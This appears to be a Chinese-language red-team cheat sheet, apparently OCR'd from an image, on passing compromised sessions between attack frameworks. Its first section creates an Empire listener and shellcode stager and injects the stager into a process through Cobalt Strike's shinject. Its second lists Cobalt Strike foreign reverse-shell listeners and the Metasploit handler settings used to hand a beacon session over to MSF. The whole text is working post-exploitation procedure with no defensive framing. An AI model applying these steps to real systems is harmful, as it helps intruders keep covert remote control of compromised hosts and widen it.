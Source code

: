 #### 派生Empire
	创建一个Listener
	创建一个stager
	>usestager windows/shellcode 执行，会生成/tmp/launcher.bin
	CS 使用PS命令查找进程，进行进程注入(>shinject 进程id x64)，选择launcher.bin即可
#### 派生MSF
	使用CS的外部监听器
	windows/foreign/reverse_dns_txt
	windows/foreign/reverse_http
	windows/foreign/reverse_https
	windows/foreign/reverse_tcp
	msf开启监听
	Set LHOST and LPORT 设置为beacon
	Set DisablePayloadHandler to True
	Set PrependMigrate to True
	exploit -j
	cobalt strike会话主机上点击spwan，创建外部监听器，选择windows/foreign/reverse_tcp指定MSF监听的IP和端口即可